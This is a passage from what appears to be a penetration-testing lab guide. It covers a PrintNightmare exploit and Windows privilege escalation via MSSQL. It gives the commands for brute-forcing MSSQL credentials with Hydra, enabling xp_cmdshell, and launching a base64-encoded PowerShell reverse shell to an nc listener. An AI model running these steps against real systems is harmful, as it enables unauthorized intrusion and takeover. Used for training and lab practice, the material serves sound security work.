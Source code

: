 #### Why It Works
Print Nightmare exploits a flaw in the Print Spooler service, allowing unauthenticated users to execute arbitrary code with SYSTEM privileges.

#### Alternatives
- Use Metasploit’s PrintNightmare module for automated exploitation.

#### Resources
- [CVE-2021-34527 Details: https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34527](https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34527)

#### Notes
- Ensure the target is unpatched (pre-July 2021).

---

### Lab 3: Privilege Escalation on Windows Network (via MSSQL)
#### Objective
Escalate privileges on a Windows network by exploiting MSSQL to gain a system shell.

#### Vulnerabilities
- Weak MSSQL Credentials: Default or guessable credentials allow command execution via xp_cmdshell.
- SeImpersonate Privilege: Enables privilege escalation using SigmaPotato.

#### Requirements
MSSQL server must be running on the target at port 1433 with weak credentials.

#### Steps
1. **Setup**
   - Verify connectivity to the MSSQL server.
   ```bash
   ping 10.10.0.46
   ```
2. **Reconnaissance**
   - Brute-force MSSQL credentials using a wordlist.
   ```bash
   hydra -C ~/SecLists/.../mssql-betterdefaultpasslist.txt 10.10.0.46 mssql -s 1433 -t 8 -f
   ```
3. **Exploitation**
   - Log in to MSSQL with obtained credentials (e.g., sa:Pass@123).
   ```bash
   python3 mssqlclient.py sa:"Pass@123"@10.10.0.46
   ```
   - Enable and use xp_cmdshell to inject a reverse shell.
   ```sql
    enable_xp_cmdshell
    RECONFIGURE
   ```
   - Generate a reverse shell in [revshells.com](https://www.revshells.com/) in powershell, base64 format, then start a listener `nc -nlvp<PORT>` and execute in base64 encoded powershell script in the mssql server console.
   ```bash
    xp_cmdshell powershell -e <BASE64_ENCRYPTED_REVERSE_SHELL>
   ```
   
